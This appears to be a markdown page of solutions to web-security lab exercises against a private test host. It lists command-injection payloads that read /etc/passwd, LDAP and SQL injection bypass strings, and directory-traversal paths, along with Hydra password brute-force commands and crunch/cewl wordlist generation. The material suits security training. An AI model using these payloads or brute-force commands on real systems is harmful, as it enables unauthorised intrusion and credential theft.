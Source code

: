 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example&nbsp;2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example&nbsp;3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |

## LDAP attacks
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | http://10.0.2.4/ldap/example1.php `remove all parameter` |
| example&nbsp;2 | http://10.0.2.4/ldap/example2.php?name=hacker)(cn=*))%00&password=1234 |

## Hydra
### Secure Shell
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l root
	  ssl://10.0.4.5
	  -f -vVd 
	  -o result.txt
	  -e nsr

### Basic Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-get "/auth"
	  -f
### Form Authentication
hydra -P /usr/shared/wordlists/rockyou.txt
	  -l admin
	  10.0.4.5 http-post-form "/login:username=^USER^:password=^PASS^:submit=Login:F=Invalid username"
	  -f
### Create WordList
* crunch 4 4 `minimum 4 characters and maximum  4 characters`
* crunch 4 4 -o mywordlist.txt
* crunch 4 4 1234567890 -o mywordlist.txt
* crunch 4 4 -t @%,^ -o mywordlist.txt `@=lowercase characters, %=numbers, ,=uppercase characters, ^=symbols`
* crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o mywordlist
* cewl -d 2 -m 4 -w test.txt http://www.php.net `-d=depth, -m=minimum word length, -w=write`

## SQL Injection
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | root'+OR+'1'='1, `root'OR+1=1+--` |
| example&nbsp;2 | root'%09OR'1'='1 |
| example&nbsp;3 | root'/**/OR/**/'1'='1 |
| example&nbsp;4 | 2+OR+1=1 |
| example&nbsp;5 | 2+OR+1=1#123 |
| example&nbsp;6 | 2+OR+1=1#123 |
| example&nbsp;7 | 2%0AOR+1=1# |
| example&nbsp;8 | name\`,IF((SELECT+0x61)=0x61%2Cid%2Cage)+%23 |
| example&nbsp;9 | IF((SELECT+0x61)=0x61%2Cid%2Cage), `IF((SELECT'a')='a',id,age)` |

## Directory Traversal
| excercise | solution |
|-----------|----------|
| example&nbsp;1 | ../../../../../../../../../etc/passwd |
| example&nbsp;2 | /var/www/files/../../../../../../etc/passwd |
